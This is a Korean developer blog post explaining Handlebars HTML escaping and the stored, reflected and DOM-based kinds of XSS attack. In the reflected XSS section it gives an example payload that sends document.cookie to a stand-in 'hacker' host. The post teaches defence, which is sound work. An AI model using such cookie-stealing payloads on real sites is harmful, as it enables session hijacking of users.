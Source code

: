 ```yaml
---
layout: post
title:  "HTML escaping과 XSS 공격"
excerpt: ""

categories:
  - Security
tags:
  - [Security, Web]

toc: true
toc_sticky: true
comments: true
 
date: 2021-09-05
last_modified_at: 2021-09-05

---
```


# HTML-escaping

개발 진행 중, handlebars(hbs 파일)로 웹을 그릴 때 특수문자가 출력되지 않는 QA가 발생하여 대응했다.

hbs에서 변수를 참조할 때 ``{{변수명}}`` 형태로 참조하고 있었는데, 이렇게 참조할 경우 자동으로 html-escaping이 적용된다.

이 때문에 특수문자가 escaping 문자로 출력되었고, {{{변수명}}} 으로 사용하여 html-escaping을 제거할 수 있었다.

(<https://handlebarsjs.com/guide/expressions.html#html-escaping>)

> HTML escaping이란?
>
> html 마크업 언어에서 사용하는 특수문자를 다른 약속된 문자로 치환하는 것이다.
>
> 아래는 특수문자와 변환되는 문자 목록이다.
>
> raw: & < > " ' ` = 
>
> html-escaped: &amp &lt &gt &quot &#x27 &#x60 &#x3D

HTML escaping 을 제거할땐 필연적으로 XSS 이슈에 대해 고민할 필요가 있다.

왜냐하면 HTML escaping이 나온 이유가 XSS 공격을 막기 위해서이기 때문이다.

# XSS 공격

## 개요

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=http%3A%2F%2Fcfile21.uf.tistory.com%2Fimage%2F99E25E485C89B3950DAB60)



XSS는 웹 어플리케이션에서 발생하는 취약점으로, 해커가 웹 사이트에 스크립트를 삽입하는 공격 기법이다.

악의적 사용자가 C&C 서버로 리다이렉션 하기 위해 리다이렉션 스크립트를 주입하기도 하고, 쿠키를 탈취하여 세션 하이재킹(Session Hijacking) 공격을 수행하기도 한다.

> C&C(Command & Control) 서버란, 
>
> 일반적으로 감염된 좀비 PC가 해커가 원하는 공격을 수행하도록 원격지에서 명령을 내리거나, 악성코드를 제어하는 서버를 말한다.
>
> 예를 들어, 감염된 PC로 악성코드를 유포시키거나, 스팸 전송, 또는 DDoS 공격 등을 전달하는 역할을 한다.

위의 사진은 XSS 공격 중 Persistent(or Stored) XSS Attack이고, 사용자의 세션을 탈취하는 프로세스를 나타내고 있다.

예를 들어, 해커는 쿠키값을 자신에게 전송하는 스크립트를 게시글에 삽입하고, 사용자가 그 게시글을 열람할 경우 스크립트가 실행되어 쿠키값을 탈취하게 된다. 이를 통해 해커는 사용자의 계정으로 로그인 할 수 있게 된다.

<br>

## 공격 종류 및 방법

### Persistent(or Stored) XSS

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=http%3A%2F%2Fcfile22.uf.tistory.com%2Fimage%2F997CF6485C89B39508BA31)

XSS 공격 종류 중 하나인 Persistent XSS는 말 그대로 지속적으로 피해를 입히는 XSS 공격이다.

해커가 XSS 취약점이 있는 부분을 파악한 후, 그 부분에서 출력이 되는 부분에 스크립트를 삽입한다.

이 때, 해커가 삽입한 부분이 Database에 저장되고, 웹사이트는 Database에서 그 값을 보여줄 때 악성스크립트가 실행되면서 해커가 의도한 데로 동작하게 된다.

이렇게 Database에 저장되어서 지속적으로 공격하는 것을 Persistent XSS 라고 부른다.

주로 많이 공격되는 곳이 게시판이며, 게시판 이외에도 사용자가 저장한 값을 프론트에서 보여주는 부분이라면 공격 대상이 될 수 있다.

<br>

### Reflected XSS

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=http%3A%2F%2Fcfile2.uf.tistory.com%2Fimage%2F99CB0F485C89B39406841B)

Reflected XSS 공격은 사용자에게 입력 받은 값을 서버에서 되돌려 주는 곳에서 발생한다.

예를 들어, 검색이라는 기능은 사용자가 검색한 값을 그대로 웹사이트에서 보여줄 것이다.

그리고 검색 같은 경우 대부분 GET 메소드로 호출할 것이기 때문에, URL에 검색할 값을 삽입할 수 있고, 해커는 검색할 값에 자신의 스크립트를 넣은 채로 url 링크를 만들어 사용자에게 보내는 것이다.

> 예를 들면, GET 방식으로 검색기능을 구현한 웹 애플리케이션에 XSS 취약점이 있음을 확인한 해커는 공격코드를 작성하였습니다. 편의상 URL 인코딩은 하지 않았습니다. 
>
> ```http://testweb?search=<script>location.href("http://hacker/cookie.php?value="+document.cookie);</script>```

아무 생각 없이 링크를 클릭했다가 낭패를 겪는 경우가 Reflected XSS 공격을 받은 경우일 수도 있다.

<br>

### DOM based XSS

DOM Based XSS는 DOM 객체 기반의 XSS 공격인데, 서버에서 잘못 의도된 HTML을 반환하여 문제가 발생하는 것과 다르게, DOM Based XSS는 브라우저가 해석하는 단계에서 (서버와 관계 없이) 발생하게 된다.

이 부분은 내가 설명하는 것보다 자세히 정리된 글이 있어서 링크를 남겨둔다.

<https://ddungkill.tistory.com/135>